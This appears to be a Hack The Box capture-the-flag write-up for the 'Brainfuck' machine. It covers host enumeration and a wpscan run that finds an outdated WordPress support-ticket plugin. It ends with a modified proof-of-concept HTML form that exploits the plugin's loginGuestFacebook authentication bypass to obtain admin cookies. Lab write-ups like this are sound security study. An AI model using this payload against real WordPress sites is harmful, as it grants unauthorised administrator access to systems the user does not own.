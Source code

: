   NIKTO:
    -


2. Add the the names 'www.brainfuck.htb' and 'sup3rs3cr3t.brainfuck.htb' to /etc/hosts, found from the nmap output.

    'sup3rs3cr3t.brainfuck.htb' is a git-like page. Looking around we find the users 'orestis' and 'admin'.
    We can create an account but not much more then that.

    'www.brainfuck.htb' is the main wordpress page. Visiting 'https://brainfuck.htb/wp-login.php' we find in the source code that it's version 4.7.3.

    Run WPscan towards the site to see if we find any vulnerable plugins.

    [root:/git/htb/brainfuck]# wpscan --url https://brainfuck.htb/ --enumerate p --disable-tls-checks
      [+] wp-support-plus-responsive-ticket-system
       | Location: https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/
       | Last Updated: 2019-09-03T07:57:00.000Z
       | [!] The version is out of date, the latest version is 9.1.2
       |
       | Found By: Urls In Homepage (Passive Detection)
       |
       | Version: 7.1.3 (100% confidence)
       | Found By: Readme - Stable Tag (Aggressive Detection)
       |  - https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt
       | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
       |  - https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt


3. Reading about wp-support-plus-responsive-ticket-system 7.1.3 we find a vulnerability where we can steal admin cookies to gain unauth access.

    Download the POC-code and modify it to our needs.
    [root:/git/htb/brainfuck]# cat test.html                                                                                          (master✱)
      <html>
      <body>
      	<h1> PlayerThree POC - wp_set_auth_cookie PrivEsc</h1>
      	<p>1. Enter username of whom to steal cookie from. Press 'STEAL!'.</p>
      	<p>2. Visit https://brainfuck.htb/wp-admin/ to gain the users admin access.</p>
      <form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
      	Username: <input type="text" name="username" value="admin">
      	<input type="hidden" name="email" value="sth">
      	<input type="hidden" name="action" value="loginGuestFacebook">
      	<input type="submit" value="STEAL!">
      </form>
      </body>
      </html>
